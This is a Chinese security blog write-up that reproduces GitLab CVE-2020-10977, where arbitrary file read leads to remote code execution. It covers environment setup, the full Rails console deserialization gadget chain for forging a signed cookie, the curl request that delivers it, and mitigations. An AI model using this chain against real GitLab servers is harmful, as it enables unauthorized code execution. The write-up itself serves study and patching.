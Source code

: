 ```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2020-10977 任意文件读取漏洞导致的RCE
toc: true
wrench: 2022-05-09
permalink: /about/GitLab-CVE-2020-10977-RCE/
author: Bin4xin
desc: 「Gitlab」
---
```


## 概述

> GitLab 是一个用于仓库管理系统的开源项目，使用Git作为代码管理工具，并在此基础上搭建起来的web服务。
>
> GitLab是由GitLabInc.开发
>
> 使用MIT许可证的基于网络的Git仓库管理工具，且具有wiki和issue跟踪功能。使用Git作为代码管理工具，并在此基础上搭建起来的web服务。

### 如何查看Gitlab Web版本

```
https://git-lab-domain.com/help
```

如果没有相关版本，那么需要先登录

![2022-04-29-11.40.26.png](https://image.yjs2635.xyz/images/2022/04/29/2022-04-29-11.40.26.png)

如果您是运维人员，可以输入以下命令查看：

```bash
$ cat /opt/gitlab/embedded/service/gitlab-rails/VERSION
```

### 零、概述

由[GitLab CVE-2020-10977 任意文件读取漏洞](/about/GitLab-CVE-2020-10977/)导致的RCE

### 0x01、影响版本

暂未可知；

通过作者在Hackerone的报告显示测试环境是：

```
GitLab information
Version: 12.8.7-ee
Revision: 2643fd87200
```

并且通过Gitlab官方的反馈是：

- Your finding has been patched in GitLab version 12.9.1

或许结合漏洞来源，一个可参考的说法是：

> GitLab GitLab CE/EE >=8.5 and < 12.9
>
> GitLab GitLab CE >=8.5，< 12.9

### 0x02、环境搭建

- 服务/受害端

```bash
$ docker run -it gitlab/gitlab-ee:{version.label} bash
```

或者yum安装；我这里的本地环境是选择与报告者 [@vakzz](https://hackerone.com/reports/827052) 一样的版本

- GitLab information
  - Version: 12.8.7-ee
  - Revision: 2643fd87200
  - Directory: /opt/gitlab/embedded/service/gitlab-rails
  - DB Adapter: PostgreSQL

<div class="content">
<p>
<a href="https://packages.gitlab.com/gitlab/gitlab-ee/packages/scientific/7/gitlab-ee-12.8.7-ee.0.el7.x86_64.rpm/download.rpm" class="btn-primary btn" target="blank">
点击以下载<span class="DocsMarkdown--link-external-icon">
<svg fill="none" stroke="currentColor" stroke-width="1.5" stroke-linecap="round" stroke-linejoin="round" viewBox="0 0 16 16" role="img" aria-labelledby="title-9637423397128071" xmlns="http://www.w3.org/2000/svg"><title id="title-9637423397128071">External link icon</title><path d="M6.75,1.75h-5v12.5h12.5v-5m0,-4v-3.5h-3.5M8,8l5.5-5.5"></path></svg>
</span></a>
</p>
</div>

或者使用下面的命令下载：

```bash
wget --content-disposition https://packages.gitlab.com/gitlab/gitlab-ee/packages/scientific/7/gitlab-ee-12.8.7-ee.0.el7.x86_64.rpm/download.rpm
```

安装
```bash
yum -y install ./gitlab......12_8.7.rpm
```

> *TIPS:*
> 
> 1.`gitlab-ctl restart`后访问Gitlab返回502，再运行`gitlab-ctl reconfigure`即可。
>
> 2.`gitlab-ctl reconfigure`如果报错`No such file or directory`，运行以下命令

```bash
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-kernel.sem.conf
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-kernel.shmall.conf
touch /opt/gitlab/embedded/etc/90-omnibus-gitlab-net.core.somaxconn.conf
```

### 0x03、复现

- 攻击端：

先pull镜像，方便用`console`生成反序列化Cookie

```bash
docker pull gitlab/gitlab-ee:12.8.1-ee.0
```

进入console
```bash
$ /opt/gitlab/embedded/bin/runsvdir-start &
$ gitlab-ctl reconfigure
$ vi /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml
# 替换secret_key_base为服务/受害端的secret_key_base
$ gitlab-rails console
```

> 需要注意的是，修改配置yml文件后，就不需要reconfigure了，不然生成新的secret_key_base会覆盖修改的。

- `gitlab-rails console` 攻击代码

```console
request = ActionDispatch::Request.new(Rails.application.env_config)
```

```console
request.env["action_dispatch.cookies_serializer"] = :marshal
```

```console
cookies = request.cookie_jar
```

```console
erb = ERB.new("<%= `echo from CVE-2020-10977 > /tmp/flags` %>")
```

```console
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
```

```console
cookies.signed[:cookie] = depr
```

```console
puts cookies[:cookie]
```

访问：

```bash
$ curl -k -vvv 'https://git-lab-domain.com/users/sign_in' -b "experimentation_subject_id={cookies[:cookie]}"
```

当然，我们也编写了相关的EXP供查阅，权当抛砖引玉；

[Bigger-than-Bigger::CoVV/Gitlab/CVE-2020-10977::cookie_generater.sh](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/Gitlab/CVE-2020-10977){:target="_blank"}

有兴趣可以点击链接查看，欢迎斧正。

### 一、思考

### 1x01、代码分析

```ruby
# /opt/gitlab/embedded/service/gitlab-rails/config/initializers/cookies_serializer.rb
# Be sure to restart your server when you modify this file.

Rails.application.config.action_dispatch.use_cookies_with_metadata = false
Rails.application.config.action_dispatch.cookies_serializer = :hybrid
```

作者提到`cookies_serializer.rb`中默认的`cookies_serializer = :hybrid`导致了RCE；

> 多说一句，插入Cookie这个利用方式和Shiro反序列化WEB利用方式有点像(o_O)

### 二、修复

### 2x01、 关闭注册功能

大部分问题都是通过匿名用户注册后，在仓库内操作导致的问题，故：取消游客的注册能够减少80%的问题

以Admin用户登录后，进入：

`Admin Area` -> `Setting` -> `Sign-up restrictions`

确保`Sign-up Restrictions` 下 `Sign-up enabled`为未勾选状态。

### 2x02、更新版本

- 但取消注册后，或许仍然有一些不需要授权的漏洞，所以尽可能保持软件的版本与上游版本保持一致；

### 三、参考

- [Hacker one- Arbitrary file read via the UploadsRewriter when moving and issue](https://hackerone.com/reports/827052){:target="_blank"}
- [CVE-2020-10977 Gitlab任意文件读取导致远程命令执行](https://github.com/EdgeSecurityTeam/Vulnerability/blob/main/CVE-2020-10977%20Gitlab%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E5%AF%BC%E8%87%B4%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.md){:target="_blank"}
- [GitLab任意文件读取漏洞复现(CVE-2020-10977)](https://zhuanlan.zhihu.com/p/340584527/){:target="_blank"}
- [GitLab任意文件读取漏洞CVE-2020-10977](https://www.freebuf.com/vuls/235982.html){:target="_blank"}
- [HackTheBox — Laboratory Writeup](https://coldfusionx.github.io/posts/LaboratoryHTB/){:target="_blank"}
- [CentOS 7手把手教你搭建gitlab环境](https://juejin.cn/post/6871249593749733383){:target="_blank"}
- [gitlab注销注册功能](https://blog.csdn.net/weixin_43606948/article/details/85222499){:target="_blank"}
